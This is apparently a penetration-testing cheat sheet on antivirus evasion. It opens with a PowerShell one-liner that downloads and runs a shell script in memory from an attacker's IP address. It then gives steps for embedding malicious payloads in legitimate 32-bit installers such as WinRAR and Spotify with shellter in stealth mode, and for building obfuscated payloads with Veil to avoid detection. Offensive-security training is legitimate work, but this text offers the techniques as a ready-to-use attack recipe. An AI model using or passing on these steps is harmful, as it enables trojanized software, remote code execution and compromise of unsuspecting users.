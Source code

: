 ## Manual
###### PowerShell Script from Memory (Run Remote Script)
`echo iex(new-object net.webclient).DownloadString('http://<attack-ip>:<port>/shell.ps1') | powershell -noprofile -`

---
## Automated
#### shellter
Embed a malicious payload within a legitimate 32bit executable.
###### Install shellter
`sudo apt install shellter`
`sudo apt install wine`
`dpkg --add-architecture i386 && apt-get update && apt-get install wine32`
###### Identify Target Executable (32bit only)
https://www.win-rar.com/download.html
https://www.spotify.com/us/download/windows/
###### Follow the Guided Instructions
- Set Automatic Mode
- Provide Full Path of Target File
- Enable Stealth Mode
- Select payload type
- Provide LHOST and LPORT details
- [[0.6 File Transfer|Transfer]] the file to the target and await execution

---
#### Veil
Create obfuscated payloads to avoid detection.
###### Install veil
`sudo apt -y install veil`
###### Follow the Guided Instructions
The veil framework has an intuitive interface to navigate. 
- Select Evasion for AV evasion
- List payloads
- Select desired payload (avoid meterpreter, option 11 is good). This does allow for PowerShell obfuscated payloads too.
- Provide LHOST and LPORT details
- Generate